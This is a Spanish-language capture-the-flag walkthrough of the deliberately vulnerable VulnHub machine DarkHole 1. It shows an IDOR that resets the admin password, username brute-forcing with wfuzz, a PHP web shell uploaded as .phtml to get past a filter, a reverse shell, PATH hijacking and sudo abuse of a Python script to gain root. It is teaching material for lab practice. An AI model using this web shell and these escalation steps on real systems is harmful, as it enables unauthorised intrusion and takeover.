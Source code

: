 ```yaml
---
title: "DarkHole 1 - VulnHub"
author: zerowhiz
date: 2023-12-30
categories: [VulnHub]
tags: [Fácil, Linux]
image:
    path: ../../assets/Miniaturas/VulnHub/DarkHole-1.png
    width: 800
    height: 500
---
```


## Preparación del entorno

Hola, bienvenidos a la resolución de la máquina DarkHole 1 de VulnHub, la cual tiene una dificultad **fácil** y utiliza un sistema operativo **Linux**. A continuación, les dejo el enlace para que puedan descargar la máquina e importarla a VMware o VirtualBox.

> https://download.vulnhub.com/darkhole/DarkHole.zip
{: .prompt-info }

## Descubriendo la dirección IP

Una vez que la máquina esté iniciada, se le asignará una dirección IP que podremos identificar mediante la utilidad [arp-scan](https://github.com/royhills/arp-scan).

![](../../assets/Maquinas/DarkHole-1/arp-scan.png)

## Enumeración de puertos

Una vez que tengamos la dirección IP de la máquina objetivo, lo siguiente que haremos es descubrir qué puertos tiene abiertos internamente. Para esto, utilizaremos la herramienta [nmap](https://github.com/nmap/nmap).

![](../../assets/Maquinas/DarkHole-1/puertos.png)

El escaneo indica que hay 2 puertos abiertos: el puerto 80 (HTTP) y el puerto 22 (SSH). Vamos a utilizar nuevamente la herramienta nmap para verificar las versiones de los servicios desplegados en estos puertos

![](../../assets/Maquinas/DarkHole-1/versiones.png)

Gracias a este escaneo, podemos determinar que nos enfrentamos a una máquina Linux cuya distribución es Ubuntu. En el puerto 80, se encuentra desplegado un servidor web Apache de versión 2.4.41, mientras que en el puerto 22, está en funcionamiento el servicio SSH de versión 8.2.p1.

## Enumeración web

![](../../assets/Maquinas/DarkHole-1/web.png)

Lo primero que notamos al ingresar al servidor web es un botón amarillo que dice "View Details", aunque este no tiene ninguna función específica. Por otro lado, en el lado derecho y en la parte superior de la página web, encontramos un botón que nos lleva a un panel para autenticarnos.

![](../../assets/Maquinas/DarkHole-1/web-login.png)

En este momento, dado que no contamos con ningún usuario ni contraseña, podemos crear uno haciendo clic en donde dice "Sign Up"

![](../../assets/Maquinas/DarkHole-1/register.png)

Ahora que hemos creado una cuenta, procedemos a iniciar sesión para ver a dónde nos redirige el panel

![](../../assets/Maquinas/DarkHole-1/panel-1.png)

Al iniciar sesión, observamos que hay un campo llamado "Details" que muestra nuestro usuario y correo, y otro campo llamado "Password" que nos permite cambiar la contraseña de nuestra cuenta. Además, si prestamos atención a la URL, notamos que nuestro usuario tiene el ID número 2. Podríamos intentar cambiarlo para ver si podemos obtener información de otros usuarios, pero la página nos lanzará una alerta.

![](../../assets/Maquinas/DarkHole-1/url-1.png)

Si recordamos, había una sección que nos permitía modificar nuestra contraseña. Vamos a capturar esa petición utilizando la herramienta [Burp Suite](https://portswigger.net/burp).

![](../../assets/Maquinas/DarkHole-1/peticion-1.png)

Al capturar la petición, observamos que se envía un parámetro llamado 'id'. Modifiquemos el valor de 'id' a 1 para verificar si podemos cambiar la contraseña del primer usuario.

> POST: una petición POST implica enviar información al servidor a través del cuerpo del mensaje HTTP, en lugar de adjuntarla a la URL como en una petición GET
{: .prompt-info }

![](../../assets/Maquinas/DarkHole-1/peticion-2.png)

El servidor nos respondió con un código de estado exitoso. Por lo tanto, podemos deducir que hemos cambiado la contraseña. Ahora bien, hemos modificado la contraseña, ¿pero a qué usuario se la hemos cambiado?

Al tratarse de una máquina de dificultad fácil, podemos deducir que hemos cambiado la contraseña del usuario 'admin', lo cual es correcto. Sin embargo, de todas formas, realizaremos un ataque de fuerza bruta para intentar adivinar el usuario.

```
❯ wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -X POST --hh 2540 -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=zerowhiz" http://192.168.1.33/login.php 2>/dev/null

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.33/login.php
Total requests: 17

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000002:   302        49 L     197 W      2507 Ch     "admin"  
```

> https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt
{: .prompt-info }

Si iniciamos sesión como el usuario 'admin', podremos observar una sección que nos permite cargar archivos en el servidor.

![](../../assets/Maquinas/DarkHole-1/upload-1.png)

El servidor web interpreta PHP, por lo que podemos intentar cargar un archivo malicioso que nos permita lograr una ejecución remota de comandos.

Aunque al intentar cargar un archivo con la extensión .php, el servidor no lo permite, sí nos permite subir archivos con la extensión .phtml.

```php
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

![](../../assets/Maquinas/DarkHole-1/upload-2.png)

Una vez que el archivo ha sido cargado, procederemos a verificar si tenemos ejecución remota de comandos.

![](../../assets/Maquinas/DarkHole-1/cmd-1.png)

Nos pondremos a la escucha con Netcat en nuestra máquina y enviaremos una reverse shell.

![](../../assets/Maquinas/DarkHole-1/reverse-shell.png)

> %20: Representa un espacio en blanco, solamente que codificado.
{: .prompt-info }
> %26: Representa el símbolo ampersand -> &
{: .prompt-info }

Hemos obtenido acceso a la máquina como el usuario www-data. Sin embargo, al revisar el archivo /etc/passwd, notamos la presencia de dos usuarios llamados 'darkhole' y 'john'.

```bash
www-data@darkhole:/var/www/html/upload$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
darkhole:x:1000:1000:john:/home/darkhole:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Al analizar el directorio personal del usuario 'john', observamos la presencia de un binario llamado 'toto'. Al ejecutarlo, parece que simplemente ejecuta el comando 'id'.

```bash
www-data@darkhole:/home/john$ ./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
www-data@darkhole:/home/john$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Con esta información, podemos intentar algo llamado '[Path Hijacking](https://walxom.net/posts/explotacion-de-un-path-hijacking/)' o, como su nombre indica, un 'secuestro de ruta'. Básicamente, si el comando 'id' se está ejecutando desde su ruta relativa y no desde la absoluta, podemos tratar de modificar la variable de entorno PATH. De esta manera, el binario 'toto' ejecutará un archivo creado por nosotros.

```bash
www-data@darkhole:/home/john$ cd /tmp
www-data@darkhole:/tmp$ echo "bash -p" > id
www-data@darkhole:/tmp$ chmod +x id 
www-data@darkhole:/tmp$ export PATH=/tmp:$PATH
www-data@darkhole:/tmp$ /home/john/toto 
john@darkhole:/tmp$ whoami
john
```
> Ruta Relativa: Se especifica sin referencia a la raíz del sistema de archivos
{: .prompt-info }
> Ruta absoluta: Comienza desde el directorio raíz
{: .prompt-info }

Si ejecutamos "sudo -l" para listar qué comandos podemos ejecutar como root siendo John, podemos ver que a través de Python3 podemos ejecutar un script llamado file.py, del cual John es el propietario (es decir, nosotros). Por lo tanto, vamos a modificarlo para que, al ser ejecutado, nos lance una shell como el usuario root.

```bash
john@darkhole:/home/john$ sudo -l
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
john@darkhole:/home/john$ ls -l file.py
-rwxrwx--- 1 john john 1 Jul 17  2021 file.py
john@darkhole:/home/john$ echo 'import os;os.system("/bin/bash")' > file.py 
john@darkhole:/home/john$ sudo /usr/bin/python3 /home/john/file.py
root@darkhole:/home/john# whoami
root
```
